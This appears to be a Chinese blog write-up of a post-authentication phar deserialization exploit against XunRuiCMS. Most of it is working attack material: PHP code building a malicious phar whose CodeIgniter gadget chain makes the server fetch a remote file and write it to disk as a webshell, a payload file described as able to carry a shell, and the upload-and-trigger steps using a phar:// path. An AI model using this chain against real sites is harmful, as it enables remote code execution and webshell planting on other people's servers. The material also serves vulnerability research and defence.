 ```yaml
---
title: 讯睿cms后台反序列化漏洞
date: 2024-08-04 22:54:17
---
```

tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off

```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```

前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
![Pastedimage20240804230432.png](../资源文件/图片/Pasted-image-20240804230432.png)]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
![Pastedimage20240804231218.png](../资源文件/图片/Pasted-image-20240804231218.png)]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

![Pastedimage20240804231519.png](../资源文件/图片/Pasted-image-20240804231519.png)]
即可在指定目录生成文件

![123.png](../资源文件/图片/123.png)
